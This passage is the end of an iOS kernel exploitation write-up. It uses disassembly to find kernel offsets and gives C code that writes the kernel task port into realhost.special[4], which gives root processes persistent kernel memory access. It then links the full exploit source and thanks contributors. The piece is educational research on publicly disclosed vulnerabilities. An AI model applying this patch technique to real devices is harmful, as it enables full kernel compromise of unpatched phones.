        0xffffff8004032518      74420391       add x20, x19, 0xd0
        0xffffff800403251c      e00314aa       mov x0, x20
        0xffffff8004032520      3a190394       bl sym._lck_mtx_lock
        0xffffff8004032524      607640f9       ldr x0, [x19, 0xe8] ; [0xe8:4]=0x486980
        0xffffff8004032528      800000b4       cbz x0, 0xffffff8004032538
        0xffffff800403252c      9cb5ff97       bl sym._ipc_port_make_send
        0xffffff8004032530      f50300aa       mov x21, x0
        0xffffff8004032534      02000014       b 0xffffff800403253c
        0xffffff8004032538      150080d2       movz x21, 0
        0xffffff800403253c      e00314aa       mov x0, x20
        0xffffff8004032540      5d190394       bl sym._lck_mtx_unlock
        0xffffff8004032544      e00313aa       mov x0, x19
        0xffffff8004032548      16730094       bl sym._task_deallocate
        0xffffff800403254c      e00315aa       mov x0, x21
        0xffffff8004032550      fd7b42a9       ldp x29, x30, [sp, 0x20] ; [0x20:4]=25
        0xffffff8004032554      f44f41a9       ldp x20, x19, [sp, 0x10] ; [0x10:4]=13
        0xffffff8004032558      f657c3a8       ldp x22, x21, [sp], 0x30
        0xffffff800403255c      c0035fd6       ret

    The second `bl` in that function is a call to `ipc_port_make_send()`.  
    The offset in the `ldr` before that is the offset of `->itk_self` from `task_t`.

-   `kernel_task`  
    Referenced from multiple locations with the following characteristics, in that order:

    - A reference to the string `"root"`
    - An access to `tpidr_el1`
    - A reference to the string `"aapl,panic-info"`

    For example:

        0xffffff800445139c      216a3110       adr x1, str.root
        0xffffff80044513a0      1f2003d5       nop
        0xffffff80044513a4      c11b0094       bl sym.IOUserClient::clientHasPrivilege
        0xffffff80044513a8      df0a0071       cmp w22, 2
        0xffffff80044513ac      0418407a       ccmp w0, 0, 4, ne
        0xffffff80044513b0      00010054       b.eq 0xffffff80044513d0
        0xffffff80044513b4      00008052       movz w0, 0
        0xffffff80044513b8      02000014       b 0xffffff80044513c0
        0xffffff80044513bc      00008052       movz w0, 0
        0xffffff80044513c0      fd7b42a9       ldp x29, x30, [sp, 0x20] ; [0x20:4]=25
        0xffffff80044513c4      f44f41a9       ldp x20, x19, [sp, 0x10] ; [0x10:4]=13
        0xffffff80044513c8      f657c3a8       ldp x22, x21, [sp], 0x30
        0xffffff80044513cc      c0035fd6       ret
        0xffffff80044513d0      df0e0071       cmp w22, 3
        0xffffff80044513d4      21010054       b.ne 0xffffff80044513f8
        0xffffff80044513d8      88d038d5       mrs x8, tpidr_el1
        0xffffff80044513dc      088941f9       ldr x8, [x8, 0x310] ; [0x310:4]=0x530018
        0xffffff80044513e0      1f2003d5       nop
        0xffffff80044513e4      69617258       ldr x9, sym._kernel_task
        0xffffff80044513e8      1f0109eb       cmp x8, x9
        0xffffff80044513ec      60000054       b.eq 0xffffff80044513f8
        0xffffff80044513f0      00008052       movz w0, 0
        0xffffff80044513f4      f3ffff17       b 0xffffff80044513c0
        0xffffff80044513f8      880240f9       ldr x8, [x20]
        0xffffff80044513fc      085940f9       ldr x8, [x8, 0xb0] ; [0xb0:4]=0
        0xffffff8004451400      21b53050       adr x1, str.aapl_panic_info

    And between the access to `tpidr_el1` and the reference to `"aapl,panic-info"`, there is one PC-relative reference, which is our precious `kernel_task`.

-   `realhost.special`  
    Referenced from `host_get_special_port()`, which is referenced from `_Xhost_get_special_port()`, whose address is in the host_priv subsystem.

    Looking at the `struct host_priv_subsystem` in `host_privServer.c` (`mig xnu/osfmk/mach/host_priv.defs`), we can see `start` and `end` being `400` and `426`. The resulting byte sequence, `90 01 00 00 AA 01 00 00`, is already unique within the kernel.  
    From there we use the pointer in `routine[12]` to get to `_Xhost_get_special_port()`, which calls `host_get_special_port()` in the last `bl` before the (first) `ret`:

        0xffffff8004069f3c      6c17ff97       bl sym._host_get_special_port
        0xffffff8004069f40      60010034       cbz w0, 0xffffff8004069f6c
        0xffffff8004069f44      602a00b9       str w0, [x19, 0x28]
        0xffffff8004069f48      c82400f0       adrp x8, 0xffffff8004504000
        0xffffff8004069f4c      082540f9       ldr x8, [x8, 0x48] ; [0x48:4]=0 ; 'H'
        0xffffff8004069f50      681200f9       str x8, [x19, 0x20]
        0xffffff8004069f54      fd7b44a9       ldp x29, x30, [sp, 0x40] ; [0x40:4]=0x4dc000 ; '@'
        0xffffff8004069f58      f44f43a9       ldp x20, x19, [sp, 0x30] ; [0x30:4]=0 ; '0'
        0xffffff8004069f5c      f65742a9       ldp x22, x21, [sp, 0x20] ; [0x20:4]=25
        0xffffff8004069f60      f85f41a9       ldp x24, x23, [sp, 0x10] ; [0x10:4]=13
        0xffffff8004069f64      fa67c5a8       ldp x26, x25, [sp], 0x50
        0xffffff8004069f68      c0035fd6       ret

    And `host_get_special_port()` loads from `realhost.special` right after the first `bl`:

        0xffffff800402fd20      3a230394       bl sym._lck_mtx_lock
        0xffffff800402fd24      282b0090       adrp x8, 0xffffff8004593000
        0xffffff800402fd28      08813a91       add x8, x8, 0xea0
        0xffffff800402fd2c      08cd358b       add x8, x8, w21, sxtw 3
        0xffffff800402fd30      151144f9       ldr x21, [x8, 0x820] ; [0x820:4]=0

    Where `0xffffff8004593ea0` is `realhost`, and `0xffffff8004593ea0 + 0x820 = 0xffffff80045946c0` subsequently `realhost.special`.

-   `is_io_service_open_extended` stack size  
    The function contains the only reference within the kernel to the string `"IOUserClientCrossEndian"`. Once we find the reference, we find the function and can derive the stack size from the code.

-   `OSUnserializeXML` stack size and return address  
    The function contains the only reference within the kernel to `"/Library/Caches/com.apple.xbs/Sources/xnu/xnu-3248.60.9/libkern/c++/OSSerializeBinary.cpp"`.  
    Stack size is trivial, the return address is from the `ret` instruction backwards until `0` is moved into the register that is subsequently moved to `x0`.

## Part Four: Patching the kernel

The patch we're gonna apply is as follows:

    realhost.special[4] = kernel_task->itk_self;

With access to the kernel task port, applying that patch is a simple matter of using `vm_read` and `vm_write` (omitted error handling):

    addr_t *special = (addr_t*)offsets.slid.data_realhost_special;
    vm_address_t kernel_task_addr,
                 kernel_self_port_addr;
    vm_size_t size;

    // Get address of kernel task
    size = sizeof(kernel_task_addr);
    vm_read_overwrite(kernel_task, (vm_address_t)offsets.slid.data_kernel_task, sizeof(kernel_task_addr), (vm_address_t)&kernel_task_addr, &size);

    // Get address of kernel task/self port
    size = sizeof(kernel_self_port_addr);
    vm_read_overwrite(kernel_task, kernel_task_addr + offsets.unslid.off_task_itk_self, sizeof(kernel_self_port_addr), (vm_address_t)&kernel_self_port_addr, &size);

    // Write to realhost.special[4]
    vm_write(kernel_task, (vm_address_t)(&special[4]), (vm_address_t)&kernel_self_port_addr, sizeof(kernel_self_port_addr));

This isn't technically true to the name "tfp0", but it allows any binary running as root to retrieve the kernel task port via

    host_get_special_port(mach_host_self(), HOST_LOCAL_NODE, 4, &kernel_task);

*The full implementation of this can be found in the `patch_host_special_port_4` function in [`exploit.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/exploit.c)*

## Conclusion

**Holy. Shit.**

That was awesome!  
It was also a whole lot of work, and this writeup is by far the longest thing I've ever written.  
Glad you stayed with me 'till the end! :D

And phew, I've learned an insane amount of things while doing this. I had doubts whether I was even gonna make it to the end, but it turns out I did, and I'm glad about that.  
If you're trying to get into exploitation like me, I can only recommend doing a project like this. Grab some publicly disclosed vulnerabilities that have been fixed in the latest iOS but to which your device is still vulnerable, start playing around with them, and see what you can get out of it. No amount of reading could replace such an experience. :)

Now, I will definitely continue to poke around in iOS, and if you're interested in reading about it, you can [follow me on Twitter](https://twitter.com/s1guza).  
And as stated at the beginning, please feel free to reach out to me if you have any kind of comments or questions. :)

Anything left to say?

## Code

The code I wrote for this project is [open source and available on GitHub](https://github.com/Siguza/cl0ver), licensed under MIT.  
(I simply named it after the leaf on my avatar, clover.)

## Credits & thanks

First and foremost I would like to thank [@jndok](https://twitter.com/jndok) (as well as all the people he credits and thanks) for [his amazing writeup](https://jndok.github.io/2016/10/04/pegasus-writeup/) and the accompanying PoC. My work here is entirely based on yours.

Also thanks to:

- The guys at [Citizenlab](https://citizenlab.org/2016/08/million-dollar-dissident-iphone-zero-day-nso-group-uae/) and [Lookout](https://www.lookout.com/trident-pegasus-enterprise-discovery) for the initial analysis of the Pegasus spyware.
- <a href="https://twitter.com/Morpheus______">Jonathan Levin (@Morpheus______)</a> for his awesome tools, especially [joker](http://www.newosxbook.com/tools/joker.html) - saved me weeks of work at the very least.
- Everyone who contributed to [radare2](https://github.com/radare/radare2) for that incredibly powerful and advanced reverse engineering toolkit.
- [Rohit Mothe (@rohitwas)](https://twitter.com/rohitwas) for so tirelessly discussing and rethinking so many steps of this project over and over with me.
